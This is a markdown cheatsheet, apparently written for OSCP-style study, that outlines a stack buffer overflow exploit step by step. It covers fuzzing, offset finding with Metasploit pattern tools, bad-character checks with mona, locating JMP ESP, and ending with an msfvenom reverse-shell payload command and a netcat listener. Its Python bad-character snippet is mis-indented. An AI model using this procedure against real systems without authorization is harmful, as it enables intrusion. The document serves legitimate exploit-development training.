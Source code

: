 # Buffer Oveflow

See [V1n1v131r4-Scripts](/Scripts/4-Buffer-Overflow/V1n1v131r4-Scripts/README.md) for more appropriate example scripts

## Identify Overflow Length

> 1. Attach debugger
> 2. Run fuzzer script
> 3. Run confirm-overflow script

## Control EIP

> 1. Create pattern: `msf-pattern_create -l <length>`
> 2. Run locate-offset script
> 3. Locate offset: `msf-pattern_offset -l <length> <eip-value>`
> 4. Run verify-offset script

## Locate Space for Shellcode

> 1. Run increase-overflow script to attempt increasing overflow size
> 2. If successful, run bad-char script
>
> - On the debug machine, we can generate a file which contains the same list of badchars with the help of python:
>
> ```python
> badchar_test = ""
>   badchars = [0x00, 0x0A, 0xAD]
>   for i in range(0x00, 0xFF+1):
>   	  if i not in badchars:
>        badchar_test += chr(i)
>   with open("badchar_test.bin", "wb") as f:
>      f.write(badchar_test)
> ```
>
> - Now, we can compare the contents of stack pointed by esp and the file using mona module:
>
>   `!mona compare -a esp -f C:\Python27\badchar_test.bin`

## Find Return Address

> 1. Locate module w/ least memory protection: mona.py `!mona modules`
> 2. JMP ESP hex: `msf-nasm_shell > jmp esp` (FFE4)
> 3. Locate JMP ESP w/ no bad chars: mona.py `find -s "\xff\xe4" -m "<dll module>"`
> 4. Run verify-jmp-esp script

## Getting Shell

> 1. Generate payload: `msfvenom -p <payload> LHOST=<ip> LPORT=<port> EXITFUNC=thread -f <format> -e x86/shikata_ga_nai -b "<bad-chars> (e.g. \x00\x0a\x0d\x25\x26\x2b\x3d)"`
> 2. Run listener: `sudo nc -nvlp <port>`
> 3. Run exploit script

## Cheatsheets

> - [V1n1v131r4/OSCP-Buffer-Overflow](https://github.com/V1n1v131r4/OSCP-Buffer-Overflow)
> - [justinsteven/dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood)
> - [LegendBegins/Overflow-Helper](https://github.com/LegendBegins/Overflow-Helper)
> - [rdoix/Buffer-Overflow-Cheat-Sheet](https://github.com/rdoix/Buffer-Overflow-Cheat-Sheet)
> - [Tib3rius/Pentest-Cheatsheets](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
> - [Liodeus](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html)
